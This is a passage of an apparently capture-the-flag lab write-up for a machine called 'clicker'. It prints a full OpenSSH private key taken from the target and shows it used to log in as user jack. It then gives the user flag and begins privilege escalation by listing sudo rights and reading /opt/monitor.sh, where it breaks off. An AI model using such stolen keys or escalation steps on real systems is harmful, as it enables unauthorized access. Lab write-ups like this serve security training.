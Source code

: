 ```
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
-----END OPENSSH PRIVATE KEY---
```
If we save that to a file `key` with perms `0600`, then we can run `ssh -i key jack@$TARGET` to enter as `jack` without the need of knowing the password. Once inside we get our user flag `cat user.txt`
```
2077ff5ceadbf060fd24cfc1557986b0
```
### Privilege escalation
The next step is to get command execution as root, so we check our ids looking for something strange and also the commands we are allowed to run as `root`, to do this `id && sudo -l`
```
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
Matching Defaults entries for jack on clicker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```
Again we have a strange script which maybe can be exploited so we read it `cat /opt/monitor.sh`
```
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

```